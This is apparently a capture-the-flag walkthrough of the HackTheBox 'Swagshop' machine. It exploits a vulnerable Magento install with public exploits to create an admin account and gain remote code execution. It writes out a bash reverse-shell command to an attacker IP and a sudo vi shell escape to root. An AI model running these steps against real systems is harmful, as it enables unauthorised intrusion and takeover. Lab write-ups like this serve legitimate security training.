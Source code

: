 # Swagshop

### Machine Info
![](screenshots/swagshop.png)

#### Nmap
![](screenshots/nmap.png)


##### HTTP (Port 80)

![](screenshots/index.png)

`/app/Mage.php` could include version info but cannot read.


http://10.10.10.140/RELEASE_NOTES.txt

![](screenshots/release_notes.png)

Based on release notes we can assume that this is magento version 1.7.0.2.

![](screenshots/magento_copyright.png)

But I found that copyright for application is 2014 which means this could be magento version 1.9.


I am not sure but I think this could be between 1.7.0.2 and 1.9.



![](screenshots/magento_exploits.png).

Searched for public exploits and I found 2 interesting exploits `37811.py` and `37977.py` as both exploits are about `RCE(Remote Code Execution)`.


Let's check for `37977.py` first as we are not authenticated yet:
![](screenshots/magento_37977_2.png)
![](screenshots/magento_37977.png)


The exploit target for this url `/admin/Cms_Wysiwyg/directive/index`. If we have that address maybe we could exploit with this exploit:
![](screenshots/magento_test.png)

We can access to that particular address but redirected to admin login page. Let's just try this exploit as this will create admin account for us.

Modification of Exploit:
![](screenshots/exploit_modi.png)

Execute exploit:
```
❯ python magento_create_admin.py
WORKED
Check http://10.10.10.140/index.php/admin with creds hacker:hacker
```

Then try login with `hacker:hacker` and we can get admin panel:
![](screenshots/magento_admin.png)



From the admin panel, I could check the version of `magento`:
![](screenshots/magento_version.png)


Now we are authenticated so we can try the other exploit `37811.py` which requires `authenticated`.

First modify exploit:
![](screenshots/37811_config.png)

Then execute:
![](screenshots/37811_error.png)

I don't know why it makes error so let's check by using `burp`:

![](screenshots/burp_error.png)

As we can see from the `burp`, the option value `7d` is selected and it returns `No Data Found`. This could be an issue. I will change this to `1y`:

![](screenshots/37811_1y.png)

Execute:
![](screenshots/37811_1y_fail.png)

still retunrs `No Data Found`.

Change to `2y` and try again:
![](screenshots/37811_2y_chart.png)

This time we got different result and it worked:
![](screenshots/37811_success.png)


Now we can try to get reverse shell with different argument:
```
❯ python magento_rce.py http://10.10.10.140/index.php/admin/ "bash -c 'bash -i >& /dev/tcp/10.10.14.37/4444 0>&1'"
```

`nc` listener on attacking side:
![](screenshots/low_shell.png)

#### Privilege Escalation

Check for `sudo`:
![](screenshots/sudo.png)

Execute `sudo /usr/bin/vi /var/www/html/*` and from the vi editor just `:!sh` which executes a shell:

![](screenshots/root_shell.png)


And you can get `root.txt` :)
